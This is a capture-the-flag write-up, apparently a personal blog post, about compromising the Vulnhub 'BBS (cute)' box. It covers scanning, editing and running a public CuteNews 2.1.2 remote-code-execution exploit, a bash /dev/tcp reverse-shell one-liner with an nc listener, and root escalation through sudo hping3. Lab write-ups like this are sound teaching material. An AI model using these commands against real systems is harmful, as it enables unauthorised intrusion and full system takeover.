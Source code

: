 ```yaml
---
title: Vulnhub - BBS (cute)
description: My writeup on BBS (cute) box.
categories:
 - vulnhub
tags: vulnhub hping3 python cutenews
---
```


![](https://infostory.files.wordpress.com/2016/10/bbs.jpg)

You can find the machine there > [BBS (cute)](https://www.vulnhub.com/entry/bbs-cute-101,567/){:target="_blank"}

## Summary

This box is a really easy but is really really good for beginners. Teach you the importance of exploit editing. We start by finding a vulnerable version of cutenews we edit the exploit and we gain command execution, privesc to root is simple we just exploit hping3. Let's pwn it! :sunglasses:

## Enumeration/Reconnaissance

Let's start as always with nmap.

```
$ ip=192.168.1.18
$ nmap -p- --min-rate 10000 $ip
Starting Nmap 7.80 ( https://nmap.org ) at 2020-09-24 12:47 EEST
Nmap scan report for cute.htb.zte.com.cn (192.168.1.18)
Host is up (0.00046s latency).
Not shown: 65530 closed ports
PORT    STATE SERVICE
22/tcp  open  ssh
80/tcp  open  http
88/tcp  open  kerberos-sec
110/tcp open  pop3
995/tcp open  pop3s
MAC Address: 08:00:27:3E:4A:A5 (Oracle VirtualBox virtual NIC)

Nmap done: 1 IP address (1 host up) scanned in 2.05 seconds
$ nmap -p 22,80,88,110,995 -sC -sV -oN nmap/initial $ip
Starting Nmap 7.80 ( https://nmap.org ) at 2020-09-24 12:48 EEST
Nmap scan report for cute.htb.zte.com.cn (192.168.1.18)
Host is up (0.00035s latency).

PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 04:d0:6e:c4:ba:4a:31:5a:6f:b3:ee:b8:1b:ed:5a:b7 (RSA)
|   256 24:b3:df:01:0b:ca:c2:ab:2e:e9:49:b0:58:08:6a:fa (ECDSA)
|_  256 6a:c4:35:6a:7a:1e:7e:51:85:5b:81:5c:7c:74:49:84 (ED25519)
80/tcp  open  http     Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: Apache2 Debian Default Page: It works
88/tcp  open  http     nginx 1.14.2
|_http-server-header: nginx/1.14.2
|_http-title: 404 Not Found
110/tcp open  pop3     Courier pop3d
|_pop3-capabilities: IMPLEMENTATION(Courier Mail Server) UTF8(USER) LOGIN-DELAY(10) TOP UIDL PIPELINING STLS USER
| ssl-cert: Subject: commonName=localhost/organizationName=Courier Mail Server/stateOrProvinceName=NY/countryName=US
| Subject Alternative Name: email:postmaster@example.com
| Not valid before: 2020-09-17T16:28:06
|_Not valid after:  2021-09-17T16:28:06
995/tcp open  ssl/pop3 Courier pop3d
|_pop3-capabilities: IMPLEMENTATION(Courier Mail Server) LOGIN-DELAY(10) TOP UIDL UTF8(USER) PIPELINING USER
| ssl-cert: Subject: commonName=localhost/organizationName=Courier Mail Server/stateOrProvinceName=NY/countryName=US
| Subject Alternative Name: email:postmaster@example.com
| Not valid before: 2020-09-17T16:28:06
|_Not valid after:  2021-09-17T16:28:06
```

We start by enumerating the port 80, we can see the default apache page. Let's run a quick `dirb` scan.

```
$ dirb http://$ip/ -r

-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Thu Sep 24 12:53:27 2020
URL_BASE: http://192.168.1.18/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt
OPTION: Not Recursive

-----------------

GENERATED WORDS: 4612                                                          

---- Scanning URL: http://192.168.1.18/ ----
==> DIRECTORY: http://192.168.1.18/core/                                                  
==> DIRECTORY: http://192.168.1.18/docs/                                                  
+ http://192.168.1.18/favicon.ico (CODE:200|SIZE:1150)                                    
+ http://192.168.1.18/index.html (CODE:200|SIZE:10701)                                    
+ http://192.168.1.18/index.php (CODE:200|SIZE:6175)
```

If we visit `/index.php` we can see the CuteNews login page:

![](https://i.imgur.com/MZnn1kO.png)

In the end we can see the version:

![](https://i.imgur.com/g0WqCT7.png)

## Shell as www-data

Let's search for possible exploits.

```
$ searchsploit cutenews 2.1.2
------------------------------------------------------------------------------------------------------------------ ---------------------------------
 Exploit Title                                                                                                    |  Path
------------------------------------------------------------------------------------------------------------------ ---------------------------------
CuteNews 2.1.2 - 'avatar' Remote Code Execution (Metasploit)                                                      | php/remote/46698.rb
CuteNews 2.1.2 - Arbitrary File Deletion                                                                          | php/webapps/48447.txt
CuteNews 2.1.2 - Authenticated Arbitrary File Upload                                                              | php/webapps/48458.txt
CuteNews 2.1.2 - Remote Code Execution                                                                            | php/webapps/48800.py
------------------------------------------------------------------------------------------------------------------ ---------------------------------
```

Perfect! :fire: let's mirror the python one in our box.

```
$ searchsploit -m php/webapps/48800.py
  Exploit: CuteNews 2.1.2 - Remote Code Execution
      URL: https://www.exploit-db.com/exploits/48800
     Path: /usr/share/exploitdb/exploits/php/webapps/48800.py
File Type: Python script, ASCII text executable, with CRLF line terminators

Copied to: /root/Documents/vulnhub/bbs-cute/48800.py
```

If we try to run it we get an error:

```
$ python3 48800.py 

[->] Usage python3 expoit.py

Enter the URL> http://192.168.1.18/
================================================================
Users SHA-256 HASHES TRY CRACKING THEM WITH HASHCAT OR JOHN
================================================================
[-] No hashes were found skipping!!!
================================================================

=============================
Registering a users
=============================
```

We have to edit the exploit. Simply we have to remove every `CuteNews` from the URL:

![](https://i.imgur.com/UvueVDU.png)

Do this and save it, now let's run it again and we can see we have command execution:

```
$ python3 48800.py                                                                                            

[->] Usage python3 expoit.py

Enter the URL> http://192.168.1.18/
================================================================
Users SHA-256 HASHES TRY CRACKING THEM WITH HASHCAT OR JOHN
================================================================
[-] No hashes were found skipping!!!
================================================================

=============================
Registering a users
=============================
[+] Registration successful with username: jiuVQZxLu2 and password: jiuVQZxLu2

=======================================================
Sending Payload
=======================================================
signature_key: 2f8c9b4da3b9fe958e83f6abe83e7edb-jiuVQZxLu2
signature_dsi: b0309d8b10b78e793dd52b31ec8bb678
logged in user: jiuVQZxLu2
============================
Dropping to a SHELL
============================

command > whoami
www-data
```

This shell isnt that good tho, let's spawn a normal reverse shell:

```
command > bash -c 'bash -i >& /dev/tcp/$your_ip/5555 0>&1'
```

```
$ nc -lvp 5555
listening on [any] 5555 ...

www-data@cute:/var/www/html/uploads$ python3 -c 'import pty; pty.spawn("/bin/bash")'
www-data@cute:/var/www/html/uploads$ 
```

## Shell as root

Now while doing the basic enumeration, `sudo -l` says we can run `hping3` as root:

```
www-data@cute:/var/www/html/uploads$ sudo -l
Matching Defaults entries for www-data on cute:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User www-data may run the following commands on cute:
    (root) NOPASSWD: /usr/sbin/hping3
```

We can join the interactive mode of hping3 just by running it with no options:

```
www-data@cute:/var/www/html/uploads$ sudo hping3
hping3> whoami;id
root
uid=0(root) gid=0(root) groups=0(root)
hping3> bash -i
root@cute:/var/www/html/uploads# 
```

Let's read the flag:

```
root@cute:~# cat root.txt
0b18032c2d06d9e738ede9bc24795ff2
```

I love such boxes! :D
